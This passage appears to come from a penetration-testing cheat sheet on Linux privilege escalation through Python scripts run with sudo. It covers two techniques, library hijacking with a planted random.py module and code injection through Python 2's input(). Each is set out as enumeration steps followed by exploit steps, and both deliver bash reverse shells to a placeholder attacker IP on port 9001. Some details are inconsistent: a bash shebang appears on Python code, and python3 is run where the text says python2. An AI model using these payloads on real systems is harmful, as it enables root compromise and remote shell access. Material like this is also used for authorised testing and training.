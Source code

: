 ```python
import random
print(random.randint(1, 8))
```

Check write access

```bash
$ touch /opt/scripts/random.py
```
{% endtab %}

{% tab title="Exploit" %}
Write the malicious module on the same folder as the script

```bash
$ cat /opt/scripts/random.py

#!/usr/bin/bash
import os
os.system('bash -c "/bin/bash -i >& /dev/tcp/<ATTACING_IP>/9001 0>&1"')
```

Then run the python script with sudo

```bash
sudo /usr/bin/python3 /opt/scripts/example.py
```
{% endtab %}
{% endtabs %}

### OS Commands in input()

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script use **python2.x** and can be executed as root with sudo rights. If it use the `input` function and we controll its input, then the script is vulnerable to arbitrary code execution. the `input()` function is equivalent to `eval(raw_input)`.

```bash
sudo -l
    (root): /usr/bin/python2.7 /opt/scripts/example.py
```

Check if we have control over the input of the vulnerable function

```python
compute = input('\nYour expression? => ')
```
{% endtab %}

{% tab title="Exploit" %}
We can enter an OS commands in the input function

```bash
$ sudo /usr/bin/python3 /opt/scripts/example.py

Enter Your expression? => __import__('os').system('id')
#or
Enter Your expression? => __import__('os').system('bash -c "bash -i >& /dev/tcp/<ATTACKING_IP>/9001 0>&1"')
```
{% endtab %}
{% endtabs %}
